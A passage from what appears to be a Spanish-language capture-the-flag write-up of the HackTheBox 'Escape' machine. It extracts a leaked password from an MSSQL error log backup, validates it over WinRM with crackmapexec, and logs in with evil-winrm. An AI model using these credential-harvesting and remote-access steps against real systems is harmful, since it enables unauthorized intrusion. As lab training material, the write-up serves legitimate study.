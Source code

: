 ![](/assets/img/commons/Escape/cap7.png)

acomodaré todo este output para visualizar mejor al usuario y la contraseña

```bash
$ iconv -f UTF-16LE -t UTF-8 ERRORLOG.BAK  | grep -i "user" | tail -n 7 | awk 'NR==2 || NR==3'                          
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
```
```bash
$ iconv -f UTF-16LE -t UTF-8 ERRORLOG.BAK  | grep -i "user" | tail -n 7 | awk 'NR==2 || NR==3' | awk -F "'" '{print $2}' 
sequel.htb\Ryan.Cooper
NuclearMosquito3
```
Y tenemos un usuario nuevo junto con una contraseña, por lo tanto lo validamos con crackmapexec 

```bash
$ crackmapexec winrm 10.10.11.202  -u 'Ryan.Cooper' -p "NuclearMosquito3" 
SMB         10.10.11.202    5985   DC               [*] Windows 10.0 Build 17763 (name:DC) (domain:sequel.htb)
HTTP        10.10.11.202    5985   DC               [*] http://10.10.11.202:5985/wsman
WINRM       10.10.11.202    5985   DC               [+] sequel.htb\Ryan.Cooper:NuclearMosquito3 (Pwn3d!)
```
y tenemos acceso por winrm otra vez:)! nos volveremos a conectar por evil-winrm y tenemos la flag del usuario !!

![](/assets/img/commons/Escape/cap8.png)
